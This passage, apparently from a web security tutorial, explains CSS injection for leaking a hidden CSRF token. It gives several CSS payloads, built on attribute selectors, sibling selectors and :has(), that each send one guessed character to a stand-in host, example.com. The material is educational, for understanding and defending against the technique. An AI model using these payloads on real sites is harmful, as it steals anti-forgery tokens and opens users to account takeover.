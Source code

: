 How can we steal the data inside?

## Stealing hidden input

For hidden inputs, our previous method won't work:

``` css
input[name="csrf-token"][value^="a"] {
  background: url(https://example.com?q=a)
}
```

Because the input type is hidden, this element will not be displayed on the screen. Since it is not displayed, the browser does not need to load the background image, so the server will not receive any requests. This restriction is very strict, and even using `display:block !important;` cannot override it.

What should we do then? No worries, we have another selector option, like this:

``` css
input[name="csrf-token"][value^="a"] + input {
  background: url(https://example.com?q=a)
}
```

There is an additional `+ input` at the end. This plus sign is another selector, meaning "select the element that comes after." So, when combined, the selector means "I want to select the input with the name 'csrf-token' and the value starting with 'a,' which comes after the input with the name 'username'." In other words, `<input name="username">`.

Therefore, the background image is actually loaded by another element, which does not have `type=hidden`, so the image will be loaded normally.

But what if there are no other elements after it? Like this:

``` html
<form action="/action">
  <input name="username">
  <input type="submit">
  <input type="hidden" name="csrf-token" value="abc123">
</form>
```

In this case, in the past, it would have been impossible because CSS did not have a selector to select "previous elements." But now it's different because we have [:has](https://developer.mozilla.org/en-US/docs/Web/CSS/:has). This selector can select "elements below that meet specific conditions," like this:

``` css
form:has(input[name="csrf-token"][value^="a"]){
  background: url(https://example.com?q=a)
}
```

This means I want to select the form "below (the input that meets that condition)." So, the form will be the one loading the background, not the hidden input. This `:has` selector is quite new and officially supported starting from Chrome 105, released at the end of August 2022. Currently, only the stable version of Firefox does not support it yet. For more details, see: [caniuse](https://caniuse.com/css-has)
